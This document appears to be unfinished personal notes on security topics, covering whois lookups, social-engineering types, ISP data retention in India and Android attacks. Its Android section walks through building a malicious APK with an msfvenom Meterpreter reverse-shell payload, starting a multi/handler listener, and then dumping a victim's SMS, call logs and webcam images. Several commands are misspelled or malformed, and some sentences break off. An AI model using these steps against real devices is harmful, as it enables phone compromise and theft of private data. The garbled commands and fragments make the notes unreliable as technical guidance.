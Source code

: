 # Information Gathering

- *whois Domain Lookup*
- *whois iplookup*
- *whois MAC lookup*
---
# Smishing

Smishing Attack is a social Engineering 

# Quishing



# Vishing

---

# It Is About Finding Them

All these things keeps on happening therefore you need to consider Domain Lookup

<div style="border-left: 4px solid #007acc; background-color: #f1f6f9; padding: 10px; border-radius: 5px;">
<strong>Note: </strong> When a machine is involved into some suspicious activity and that the identification of the machine is difficult then it is not that hard to identify using the service providers, say ISPs, even VPN Providers. In India, the Govt ask to keep the Data of the services used for the **3 Months**, and that when asked they should be able to give the information to the Govt. 
</div>
<br> 


- **Collaboration with ISPs, VPN Provider**, When you need to identify the machine, you can *traaceroute* the 


# Android Security

*So How Does the Android Architecture works?* 

Attacker will have a machine (Kali Linux) and will create a *.apk* file that will have the malicious code and through social engineering he'll be making implementing the payload and victim (Android Phone) will be downloading the .apk file and will get hack. 

```
sudo msfvenom -p androud/meterpreter/reverse_http LHOST=192..168.100.228 LPORT=5000 > hack.apk
```

You need to open the listening port on the saem server and this you will be able to respond to the requests of the Android Device and this you'll need to open the mfsconsole and run the multi/handler. Start by msfconsole.

```
sudo mfsconsole
```

Then use the `multi/handler`.

```
use multi/handler
```

After multi/handler you need to set the reverse meterpreter that will send the request to android device for the reverse shell using the following command.

```
set payload android/meterpreter/reverse_tcp
```

Then set the LHOST as the IP of the server/machine that is running the apache server meaning the IP address of the machine, the you need to specify the listening port that tht 

Now you can dump the messages using the following command.

```
dump_sms

dump-callog

dump_snap

webcam_snap
```

- **Dynamic Analyser for Mobile Applications**, where people can 





